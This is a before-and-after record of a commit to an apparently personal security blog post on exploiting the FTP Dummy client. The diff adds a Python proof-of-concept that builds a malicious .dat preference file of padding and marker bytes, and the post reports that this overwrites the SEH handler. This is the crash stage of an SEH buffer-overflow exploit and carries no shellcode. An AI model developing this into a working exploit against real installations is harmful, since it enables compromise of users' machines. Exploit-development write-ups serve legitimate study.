

Before and after one commit to whitecr0wz/whitecr0wz.github.io, a Jekyll site: the page built from _posts/posts/2020-07-23-ftp-dummy.md, in a window 1280 px wide and 1400 px high, scrolled down 465 px. Shown: the whole window at 93% size, without its empty margins (0-993 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1095 px from its top, so only the background shows below that.

Commit message:
Update 2020-07-23-ftp-dummy.md

````diff
--- a/_posts/posts/2020-07-23-ftp-dummy.md
+++ b/_posts/posts/2020-07-23-ftp-dummy.md
@@ -15,6 +15,8 @@
 
 ![](/assets/img/Findings8/0.png)
 
+In order to portray the malicious file to be .dat format, it needs some headers, from which i modified from [here](https://www.exploit-db.com/exploits/32050)
+
 PoC code:
 
 ```term
@@ -31,3 +33,29 @@
 except:
     print "[!] There has been an error while creating the file."
 ```
+
+The file is generated within the FTPDummy! folder:
+
+![](/assets/img/Findings8/1.png)
+
+PoC code:
+
+```term
+    import struct
+
+buffer = "\x31\x0d\x0a\x31\x0d\x0a" + "A" * 477 + "BBBB" + "CCCC" + "\xff" * 2000
+
+try:
+    f = open ("ftpdummypref3.dat", "w")
+    f.write(buffer)
+    f.close()
+    print "[+] The file has been created successfully!"
+
+except:
+      print "[!] There has been an error while creating the file."
+
+```
+
+The SEH values are overwritten as expected:
+
+![](/assets/img/Findings8/2.png)
````
